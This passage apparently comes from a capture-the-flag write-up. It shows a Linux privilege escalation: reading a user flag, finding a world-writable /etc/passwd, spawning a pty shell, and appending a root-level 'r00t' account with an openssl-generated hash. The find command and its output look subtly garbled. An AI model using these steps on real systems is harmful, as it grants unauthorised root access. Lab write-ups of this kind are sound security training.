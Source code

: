 ```shell
pwd
/home/chris
cat user.txt
d0006b97a14722fab09ac9a8073ec3ce
```

We used the following command to find world-writable files, excluding `/proc`:

`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null /proc /etc/passwd`
```
/proc
/etc/passwd/proc
/etc/passwd
/sys/kernel/security/apparmor/policy/.remove
/sys/kernel/security/apparmor/policy/.replace
/sys/kernel/security/apparmor/policy/.load
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.ns_name
/sys/kernel/security/apparmor/.ns_level
/sys/kernel/security/apparmor/.ns_stacked
/sys/kernel/security/apparmor/.stacked
/sys/kernel/security/apparmor/.access
```
This file stores user account information — and if writable, allows us to add a new user with UID 0 (root).

Before continuing, we upgraded our shell for better TTY support (needed for `su` to work properly):
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


We used OpenSSL to generate a hash for a password we controlled (`gotem` in this case):
```
openssl passwd -1 gotem
$1$dgtrcdar$x11t1HhoCCdNHkV1ZFLcA/
```
Note: you'll get a different hash if you use a different password or salt.

Then confirm TTY:
```
tty
/dev/pts/0
```


Now we added a new user `r00t` with UID 0 (root) using our generated hash:
```
echo 'r00t:$1$dgtrcdar$x11t1HhoCCdNHkV1ZFLcA/:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then confirm it was added:
```
grep r00t /etc/passwd
r00t:$1$dgtrcdar$x11t1HhoCCdNHkV1ZFLcA/:0:0:root:/root:/bin/bash
```
